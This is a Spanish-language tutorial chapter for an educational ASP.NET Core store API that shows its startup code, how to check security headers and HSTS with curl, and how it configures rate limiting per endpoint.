using TiendaApi.Api.Middleware;

// Configuración de Serilog
Log.Logger = SerilogConfig.Configure().CreateLogger();

var builder = WebApplication.CreateBuilder(args);
builder.Host.UseSerilog();

Log.Information("🚀 Inicializando TiendaApi...");

// Servicios
var services = builder.Services;
var configuration = builder.Configuration;
var environment = builder.Environment;

services.AddMvcControllers();
services.AddFluentValidationServices();
services.AddApiVersioningPolicy();
services.AddSwagger();
services.AddCorsPolicy(configuration, environment.IsDevelopment());
services.AddDatabases(configuration);
services.AddAuthentication(configuration);
services.AddRepositories(configuration);
services.AddServices();
services.AddCache(environment);
services.AddEmail(environment);
services.AddStorage();
services.AddWebSockets();
services.AddBackgroundJobs();
services.AddRealtimeSignalR();
services.AddGraphQL(environment);
services.AddAutoMapper();

// Construcción de la aplicación
var app = builder.Build();
var isDevelopment = app.Environment.IsDevelopment();

Log.Information("✅ Aplicación construida");

// Pipeline de middlewares
app.UseSwaggerUI(isDevelopment);
app.UseGraphiQL();
app.UseGlobalExceptionHandler();

// Security Headers - Siempre activo (no afecta funcionalidad)
app.UseSecurityHeaders();

// HTTPS + HSTS - Solo en producción
if (!isDevelopment)
{
    app.UseHsts();
    app.UseHttpsRedirection();
}
else
{
    Log.Information("🔓 Modo desarrollo: HTTP permitido (sin redirección HTTPS)");
}

app.UseCorsPolicy();
app.UseAuthentication();
app.UseAuthorization();
app.UseWebSockets();
app.MapWebSocketEndpoints();
app.MapSignalRHubs();
app.UseStaticFiles();
app.MapControllers();
app.MapGraphQL();

// Inicialización
await app.InitializeDatabaseAsync(isDevelopment);
app.InitializeStorage(isDevelopment);

PrintStartupInfo(isDevelopment, configuration);

// Ejecución
try
{
    app.Run();
}
catch (Exception ex)
{
    Log.Fatal(ex, "💥 La aplicación falló al iniciar");
    throw;
}
finally
{
    Log.CloseAndFlush();
}

/// <summary>
/// Imprime información de inicio con URLs dinámicas
/// </summary>
static void PrintStartupInfo(bool isDevelopment, IConfiguration configuration)
{
    var urls = configuration["ASPNETCORE_URLS"]?.Split(';') 
        ?? new[] { "http://localhost:5000" };
    
    var firstUrl = urls.FirstOrDefault() ?? "http://localhost:5000";
    var protocol = firstUrl.StartsWith("https://", StringComparison.OrdinalIgnoreCase) 
        ? "https" : "http";
    var host = firstUrl.Contains("://") 
        ? firstUrl.Split("://")[1].Split(':')[0] 
        : "localhost";
    var port = firstUrl.Contains(':') 
        ? firstUrl.Split(':').Last() 
        : "5000";

    var mode = isDevelopment ? "DESARROLLO" : "PRODUCCION";
    var baseUrl = $"{protocol}://{host}:{port}";

    Log.Information("=================================================================");
    Log.Information("TiendaApi - API REST Educativa");
    Log.Information("=================================================================");
    Log.Information("Documentacion Swagger:  {BaseUrl}/", baseUrl);
    Log.Information("GraphiQL UI:            {BaseUrl}/graphiql", baseUrl);
    Log.Information("=================================================================");
    Log.Information("🚀 Aplicacion iniciada correctamente en {BaseUrl} ({Mode})",
        baseUrl, mode);
    Log.Information("=================================================================");
}
```

---

## 19.7. Verificación de Seguridad

### Verificar Headers con curl

```bash
# Ver headers de respuesta
curl -I https://localhost:5000/api/categorias

# Expected headers:
# HTTP/1.1 200 OK
# X-Content-Type-Options: nosniff
# X-Frame-Options: DENY
# X-XSS-Protection: 1; mode=block
# Referrer-Policy: strict-origin-when-cross-origin
# Permissions-Policy: accelerometer=(), camera=(), ...
```

### Verificar HSTS en Producción

```bash
# Desde producción
curl -I https://tu-dominio.com/api/categorias

# Verificar header Strict-Transport-Security
# Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

### Herramientas de Verificación

| Herramienta | Uso |
|-------------|-----|
| **curl** | Verificar headers desde línea de comandos |
| **SSL Labs** | https://ssllabs.com/ssltest/ (Análisis completo de SSL/TLS) |
| **securityheaders.com** | Análisis de security headers |
| **Mozilla Observatory** | https://observatory.mozilla.org/ |

### Checklist de Seguridad HTTP

```mermaid
graph TD
    A["Verificación de Seguridad"] --> B["✅ HTTPS activo"]
    A --> C["✅ HSTS configurado"]
    A --> D["✅ Redirect HTTP→HTTPS"]
    A --> E["✅ Security headers presentes"]
    A --> F["✅ Certificados válidos"]
    A --> G["✅ No hay información sensible en headers"]
    
    style A fill:#3498db,color:#fff
    style B fill:#27ae60,color:#fff
    style C fill:#27ae60,color:#fff
    style D fill:#27ae60,color:#fff
    style E fill:#27ae60,color:#fff
    style F fill:#27ae60,color:#fff
    style G fill:#27ae60,color:#fff
```

---

## 19.8. Resumen y Buenas Prácticas

### Configuración Recomendada

```csharp
// Producción
if (!isDevelopment)
{
    app.UseHsts(options =>
    {
        options.MaxAge = TimeSpan.FromDays(365);
        options.IncludeSubDomains = true;
        options.Preload = true;
    });
    app.UseHttpsRedirection();
}

// Desarrollo
else
{
    // HTTP permitido para testing
}

// Siempre activo
app.UseSecurityHeaders();
```

### Buenas Prácticas

| Práctica | Descripción | Prioridad |
|----------|-------------|-----------|
| **Usar HTTPS siempre** | En producción, HTTPS es obligatorio | 🔴 Alta |
| **HSTS con max-age largo** | 31536000 segundos (1 año) mínimo | 🔴 Alta |
| **Incluir subdominios** | Proteger todos los subdominios | 🟡 Media |
| **Security Headers** | Implementar todos los headers básicos | 🔴 Alta |
| **Preload HSTS** | Agregar a listas de preload | 🟡 Media |
| **Certificados válidos** | Usar Let's Encrypt o CA comercial | 🔴 Alta |
| **TLS 1.3** | Usar versión más reciente de TLS | 🔴 Alta |

### Resumen de Headers de Seguridad



## 19.9. Rate Limiting (Protección contra Abuso)

### ¿Qué es Rate Limiting?

Rate Limiting es una técnica de seguridad que limita el número de solicitudes que un cliente puede hacer a una API en un período de tiempo específico. Protege contra ataques de denegación de servicio (DDoS), fuerza bruta y abuso de la API.



### Vulnerabilidades que Previene Rate Limiting

| Vulnerabilidad | Descripción | Impacto |
|----------------|-------------|---------|
| **DDoS** | Ataque de denegación de servicio distribuido | API inaccesible |
| **Fuerza Bruta** | Múltiples intentos de login/password | Cuentas comprometidas |
| **Scraping** | Extracción masiva de datos | Robo de información |
| **Abuso de API** | Uso excesivo de recursos | Degradación de rendimiento |

### Tipos de Rate Limiting



### Configuración de Rate Limiting en TiendaApi

La API implementa Rate Limiting usando `AspNetCoreRateLimit` con diferentes reglas según el tipo de endpoint:

```csharp
// En Program.cs
services.AddRateLimitingPolicy();

// Middleware
app.UseRateLimiting();
```

### Reglas de Rate Limiting Implementadas

| Endpoint | Limite | Periodo | Razon |
|----------|--------|---------|-------|
| `*` (General) | 100 | 15s | Uso general de la API |
| `*/api/v1/auth/*` | 10 | 1m | Prevenir fuerza bruta en login |
| `POST:*` | 20 | 1m | Limitar escrituras |
| `POST:/graphql` | 200 | 1m | Queries GraphQL flexibles |

### Respuesta cuando se Excede el Limite

```json
{
    "statusCode": 429,
    "message": "Too Many Requests",
    "headers": {
        "X-RateLimit-Limit": "10",
        "X-RateLimit-Remaining": "0",
        "X-RateLimit-Reset": "60",
        "Retry-After": "60"
    }
}
```

### Cabeceras de Rate Limiting

| Cabecera | Descripcion |
|----------|-------------|
| `X-RateLimit-Limit` | Limite maximo de solicitudes |
| `X-RateLimit-Remaining` | Solicitudes restantes |
| `X-RateLimit-Reset` | Tiempo hasta reset (segundos) |
| `Retry-After` | Segundos esperados antes de reintentar |

### Implementacion del Middleware

```csharp
// RateLimitConfig.cs
public static IServiceCollection AddRateLimitingPolicy(this IServiceCollection services)
{
    services.AddMemoryCache();
    services.Configure<RateLimitOptions>(options =>
    {
        options.EnableEndpointRateLimiting = true;
        options.HttpStatusCode = 429;
        options.QuotaExceededMessage = "Demasiadas solicitudes. Por favor, intente mas tarde.";
        
        options.GeneralRules = new List<RateLimitRule>
        {
            new RateLimitRule
            {
                Endpoint = "*",
                Limit = 100,
                Period = "15s"
            },
            new RateLimitRule
            {
                Endpoint = "*/api/v1/auth/*",
                Limit = 10,
                Period = "1m"
            }
        };
    });

    services.AddSingleton<IRateLimitCounterStore, MemoryCacheRateLimitCounterStore>();
    
    return services;
}

public static IApplicationBuilder UseRateLimiting(this IApplicationBuilder app)
{
    app.UseIpRateLimiting();
    return app;
}
```

### Consideraciones de Producción

| Aspecto | Recomendacion |
|---------|---------------|
| **Almacenamiento** | Usar Redis para multiples instancias |
| **Limites estrictos** | Mas restrictivos en endpoints sensibles |
| **Whitelist** | Excluir IPs de monitoring |
| **Logging** | Registrar intentos bloqueados |
| **Escalabilidad** | Usar Redis para granjas de servidores |

### Buenas Practicas de Rate Limiting

| Practica | Descripcion | Prioridad |
|----------|-------------|-----------|
| **Limites por endpoint** | Diferentes limites segun sensibilidad | Alta |
| **Autenticacion estricta** | Limites mas bajos en auth | Alta |
| **Respuestas claras** | 429 con headers informativos | Media |
| **Monitorizacion** | Alertar sobre patrones anomalos | Media |
| **Escalabilidad** | Usar Redis para granjas de servidores | Media |

### Documentos Relacionados

| Documento | Descripción |
|-----------|-------------|
| [19. JWT Authentication](doc/12-jwt-authentication.md) | Autenticación con tokens JWT |
| [19. Autorización Roles](doc/13-autorizacion-roles.md) | Control de acceso basado en roles |
| [19. Docker CI/CD](doc/23-docker-ci-cd.md) | Despliegue en contenedores |
